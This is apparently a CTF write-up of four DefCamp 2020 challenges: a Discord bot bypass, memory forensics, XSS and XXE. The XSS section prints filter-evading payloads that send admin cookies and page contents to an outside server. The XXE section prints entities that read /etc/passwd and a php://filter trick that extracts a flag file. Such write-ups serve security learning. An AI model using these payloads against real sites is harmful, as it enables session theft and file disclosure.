




# dumb-discord, spy agency, cross me, syntax check

I played the DefCamp CTF 2020 with 0x90r00t as an invited guest and we got first place. \(2048€ cash prize + an additional 137€ out of pure luck thanks to a raffle they organized LOL\)

I wrote these writeups for a few challenges I solved because they were required to be able to claim prizes, and I thought I might as well publish them here even though they're not very well-written and explained.

## dumb-discord \(misc\)

In this challenge, we were given a `.pyc` file of a Discord Bot, i.e. a Python script compiled into Python bytecode.

Use uncompyle to get the source code. Some strings were obfuscated with a simple XOR; here's the deofbuscated script:

```python
from discord.ext import commands
import discord, json
from discord.utils import get

def obfuscate(byt):
    mask = b'ctf{tryharderdontstring}'
    lmask = len(mask)
    return bytes(c ^ mask[(i % lmask)] for i, c in enumerate(byt))

def test(s):
    data = obfuscate(s.encode())
    return data

intents = discord.Intents.default()
intents.members = True
cfg = open('config.json', 'r')
tmpconfig = cfg.read()
cfg.close()
config = json.loads(tmpconfig)
token = config['token']
client = commands.Bot(command_prefix='/')

@client.event
async def on_ready():
    print('Connected to bot: {}'.format(client.user.name))
    print('Bot ID: {}'.format(client.user.id))

@client.command()
async def getflag(ctx):
    await ctx.send('pongg')

@client.event
async def on_message(message):
    await client.process_commands(message)
    if '!ping' in message.content.lower():
        await message.channel.send("pongg")
    if "/getflag" in message.content.lower():
        if message.author.id == 783473293554352141:
            role = discord.utils.get((message.author.guild.roles), name=("dctf2020.cyberedu.ro"))
            member = discord.utils.get((message.author.guild.members), id=(message.author.id))
            if role in member.roles:
                await message.channel.send(test(config['flag']))
    if '/help' in message.content.lower():
        await message.channel.send("Try harder!")
    if '/s基ay' in message.content.lower():
        await message.channel.send(message.content.replace('/s基ay', '').replace("/getflag", ''))


client.run(token)
```

We see that we can get the flag if the account with userid 783473293554352141 has the role `dctf2020.cyberedu.ro` and has `/getflag` in their message.

Let's see if we can invite this user by using a discord bot invite link :

[https://discord.com/oauth2/authorize?client\_id=783473293554352141&scope=bot](https://discord.com/oauth2/authorize?client_id=783473293554352141&scope=bot)


Great, it works! Let's invite it to our own server, create a `dctf2020.cyberedu.ro` role and add it to the bot. Now we need to make it send `/getflag` on a public channel so that it receives its own message and prints the flag. The interesting part of the script is:

```python
if '/s基ay' in message.content.lower():
        await message.channel.send(message.content.replace('/s基ay', '').replace("/getflag", ''))
```

Therefore, we only have to send a command like `/s基ay /get/getflagflag`:



Now we only have to deobfuscate the string \(xor\) and get the flag!

`ctf{1b8fa7f33da67dfeb1d5f79850dcf13630b5563e98566bf7b76281d409d728c6}`

## spy agency \(forensics\)

In this challenge, we were given a Windows memory dump that we could deal with using volatility.

```text
$ volatility -f spyagency3.bin --profile=Win7SP1x64 pstree
Volatility Foundation Volatility Framework 2.6
Name                                                  Pid   PPid   Thds   Hnds Time
-------------------------------------------------- ------ ------ ------ ------ ----
 0xfffffa8002227060:wininit.exe                       368    312      3     74 2020-12-04 23:43:12 UTC+0000
. 0xfffffa8002652b30:lsass.exe                        476    368      7    543 2020-12-04 23:43:12 UTC+0000
. 0xfffffa800244c910:services.exe                     464    368     10    190 2020-12-04 23:43:12 UTC+0000
.. 0xfffffa800278fb30:svchost.exe                     704    464     21    526 2020-12-04 23:43:13 UTC+0000
.. 0xfffffa8002494890:svchost.exe                     652    464      9    257 2020-12-04 23:43:13 UTC+0000
.. 0xfffffa8002679800:svchost.exe                     280    464     15    357 2020-12-04 23:43:13 UTC+0000
.. 0xfffffa8002cc4060:svchost.exe                     772    464     13    318 2020-12-04 23:45:15 UTC+0000
.. 0xfffffa80029bc890:svchost.exe                    1064    464     18    296 2020-12-04 23:43:13 UTC+0000
.. 0xfffffa80027d1b30:svchost.exe                     812    464     23    452 2020-12-04 23:43:13 UTC+0000
... 0xfffffa8002a79360:dwm.exe                       1996    812      3     69 2020-12-04 23:45:14 UTC+0000
.. 0xfffffa8002a72b30:sppsvc.exe                     1584    464      4    143 2020-12-04 23:43:14 UTC+0000
.. 0xfffffa800283bb30:svchost.exe                     972    464     16    436 2020-12-04 23:43:13 UTC+0000
.. 0xfffffa8002bf7280:svchost.exe                    1092    464     18    276 2020-12-04 23:45:14 UTC+0000
.. 0xfffffa8000e03b30:SearchIndexer.                 1864    464     11    620 2020-12-04 23:45:16 UTC+0000
... 0xfffffa8000e974e0:SearchFilterHo                2064   1864      5     96 2020-12-04 23:57:11 UTC+0000
... 0xfffffa8002be5340:SearchProtocol                2072   1864      8    279 2020-12-04 23:57:11 UTC+0000
.. 0xfffffa8002c70350:wmpnetwk.exe                   1088    464     13    402 2020-12-04 23:45:15 UTC+0000
.. 0xfffffa800272b810:svchost.exe                     588    464     10    347 2020-12-04 23:43:12 UTC+0000
.. 0xfffffa8002808060:svchost.exe                     860    464     30    926 2020-12-04 23:43:13 UTC+0000
... 0xfffffa8000dfb060:taskeng.exe                   2928    860      5     81 2020-12-04 23:55:15 UTC+0000
.. 0xfffffa8002a1f8a0:taskhost.exe                   1136    464      8    144 2020-12-04 23:43:13 UTC+0000
.. 0xfffffa8000ef3820:svchost.exe                    2088    464      4    167 2020-12-04 23:45:52 UTC+0000
.. 0xfffffa800286eb30:spoolsv.exe                    1016    464     12    274 2020-12-04 23:43:13 UTC+0000
. 0xfffffa8002663b30:lsm.exe                          484    368     10    140 2020-12-04 23:43:12 UTC+0000
 0xfffffa8001d34060:csrss.exe                         320    312      8    375 2020-12-04 23:43:12 UTC+0000
 0xfffffa8000c9d040:System                              4      0     82    493 2020-12-04 23:43:09 UTC+0000
. 0xfffffa8001d61b30:smss.exe                         248      4      2     29 2020-12-04 23:43:09 UTC+0000
 0xfffffa8002541530:explorer.exe                      648   1896     35    892 2020-12-04 23:45:14 UTC+0000
 0xfffffa8002c5db30:GoogleCrashHan                   1940   1900      5     90 2020-12-04 23:43:15 UTC+0000
 0xfffffa8002c58b30:GoogleCrashHan                   1932   1900      5     97 2020-12-04 23:43:15 UTC+0000
 0xfffffa80025ae7d0:winlogon.exe                      420    360      3    111 2020-12-04 23:43:12 UTC+0000
 0xfffffa800238d060:csrss.exe                         380    360      7    155 2020-12-04 23:43:12 UTC+0000
```

The challenge description says we have to look for coordinates. Let's check out the files \(`volatility -f spyagency3.bin --profile=Win7SP1x64 filescan`\). We can see interesting occurences, like:

```text
0x000000003fefb8c0     16      0 R--r--
\Device\HarddiskVolume2\Users\volf\Desktop\app-release.apk.zip
```

Let's try to extract this apk:

```text
mkdir files
volatility -f spyagency3.bin --profile=Win7SP1x64 dumpfiles -Q 0x000000003fefb8c0 -D files/
```

Unzipping it reveals an interesting file: `res/drawable/coordinates_can_be_found_here.jpg`.


The flag is supposed to be `ctf{sha256(location of the coordinates)}`. We try a few answers as for the location, without success. Eventually, we look inside the file and discover what we were looking for:

```text
$ strings coordinates_can_be_found_here.jpg | head -n 5 
JFIF
4-coordinates=44.44672703736637, 26.098652847616506
2"3*7%"0
K-1=
UUV"
```

The coordinates lead to a Pizza Hut in Romania. Flag is ctf{sha256\(pizzahut\)} !


## cross me \(web\)

We were given a link to a web application, where can either login or sign up.

Register an account. There's a feature on the website that allows us to post messages, with a title and a description.

Let's try a basic XSS:



Okay, so we have to satisfy a certain regexp in our payload. But as soon as we manage to pass through it, another one comes up. In total, there are four regexps that need to be bypassed:

```text
/<[^\w<>]*[ \/]\w*/i 
/<(|\/|[^\/>][^>]+|\/[^>][^>]+)>/i
/["'\(\)\.:\-\+> `]/i
/(\b)(on\S{5,8})(\s*)=|(<\s*)(\/*)script/im
```

After some groping around and reflexion, we manage to find a payload which passes all the filters and does trigger an alert:

```text
<svg/onload=alert&lpar;1&rpar;//
```

We then manage to craft a payload to retrieve the admin's cookies:

```text
<svg/onload=document&period;location=&DiacriticalGrave;//ourserver&period;com/?&DiacriticalGrave;&plus;document&period;cookie;//
```

We are greeted with a PHPSESSID but... no flag on the admin page. We also try to exfiltrate the local storage or check out headers, but still nothing.

This must mean the admin can see things only they can see _locally_. Let's try to craft a payload which allows us to exfiltrate the content of a page of the site, as seen by the admin:

```text
<svg/onload=var&nbsp;x&equals;new&nbsp;XMLHttpRequest&lpar;&rpar;;x&period;open&lpar;&apos;GET&apos;,&apos;http&colon;//127&period;0&period;0&period;1&colon;1234/index&period;php?page=admin&apos;,true&rpar;;x&period;onload=function&lpar;&rpar;{document&period;location=&apos;//ourserver&period;com/?a=&apos;&plus;escape&lpar;x&period;responseText&rpar;};x&period;send&lpar;&rpar;;//
```

Good, we are able to retrieve the contents of the admin page, but... still no flag. It took us longer than expected, but we eventually understood we had to exfiltrate the blog post that had the id 1:

```text
<svg/onload=var&nbsp;x&equals;new&nbsp;XMLHttpRequest&lpar;&rpar;;x&period;open&lpar;&apos;GET&apos;,&apos;http&colon;//127&period;0&period;0&period;1&colon;1234/index&period;php?page=post&id&equals;1&apos;,true&rpar;;x&period;onload=function&lpar;&rpar;{document&period;location=&apos;//truc&period;com/?a=&apos;&plus;escape&lpar;x&period;responseText&rpar;};x&period;send&lpar;&rpar;;//
```

...which contains the flag! `CTF{3B3E64A81963B5E3FAC7DE0CE63966F03559DAF4B61753AADBFBA76855DB5E5A}`

## syntax check \(web\)

In this challenge, we were given a web application and we were told `The flag is in /var/www/html/flag`.

The website only consists of a "Parse" button, which redirects to `/parse?<foo>hi%21<%2Ffoo>=&_token=40rzOC3O8ZiBDeNKTGIcgRtxT5uBgMJb0jpBMdq8`, and which only outputs `"Empty string supplied as input."`. Checking out the source of the page, we understand this is a Laravel error dump.

This is a weird way to pass XML content, though. Let's try sending it in the HTTP body rather than in the URL:



Okay, so we don't exactly know what's going on but our XML is parsed and "rendered". We immediately think of XXE injection:

```text
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<foo>&test;</foo>
```

This payload does leak `/etc/passwd`!

But once we want to exfiltrate the file of interest:



Some kind of filter prevents us from getting its contents...

Let's try a classic PHP filter and some path obfuscation:

```text
php://filter/read=convert.base64-encode/resource=/var/./www/../www/html/./flag
```

Still won't work: this time around we get an error saying something like "Are you trying to exfiltrate data using base64?".

After some trial and error, we manage to find a good filter:

```text
php://filter/read=convert.iconv.utf-16le.utf-8/resource=/var/www/html/flag
```

This outputs the contents of the file but with some utf-16 conversion, which makes it look like random Chinese characters.

```text
瑣筦㈰摢㠴㈶㌷㈰㌶㈶㡥㙡㘹挱㍤〳㠳㈱㜰挳〵慦㔷戹㈴戰攱愷ㄱ㉡㍣扡.〳
```

We can now retrieve the true contents of the file by encoding what we get back into utf-16, for instance using Cyberchef:

```text
ctf{02bd486273026362e8a6961cd3303812073c50fa759b420b1e7a11a2c3ab0130}
```

Enjoy :\)

